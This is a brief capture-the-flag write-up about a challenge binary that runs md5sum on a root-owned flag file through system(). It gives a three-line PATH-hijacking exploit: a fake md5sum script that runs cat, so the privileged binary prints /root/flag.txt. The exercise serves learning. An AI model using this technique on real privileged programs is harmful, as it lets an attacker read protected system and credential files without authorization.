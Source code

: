 Description:  
Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!  

After follow the description i successfully access to server. Use `ls` command to check if there is `flaghasher` file.  
Tried to run it with `./flaghasher` and it's return to the md5 hash of `./root/flag.txt`.  
I use some hash decoder tools but it not working.  
Then i download the binary file, using IDA to open and read the code.  
<img width="569" height="112" alt="image" src="https://github.com/user-attachments/assets/8e36d110-714d-49be-a167-66d29cf2f5f6" />  
As you can see, there is a `system()` call, and the command is `"/bin/bash -c 'md5sum /root/flag.txt'"`.  
So everytime you run the binary file, i will run this command and print out `md5sum` of the path.  
So ... what if : we can create a fake `md5sum` file and trick and system to execute it instead of the real one ?  
There is my script :  
```
$ echo -e '#!/bin/bash\ncat "$@"' > md5sum
$ chmod +x md5sum
$ PATH=:$PATH ./flaghasher
```
So instead of calculate the md5sum of /root/flag.txt, the system will `cat` it instead.  
Peace!

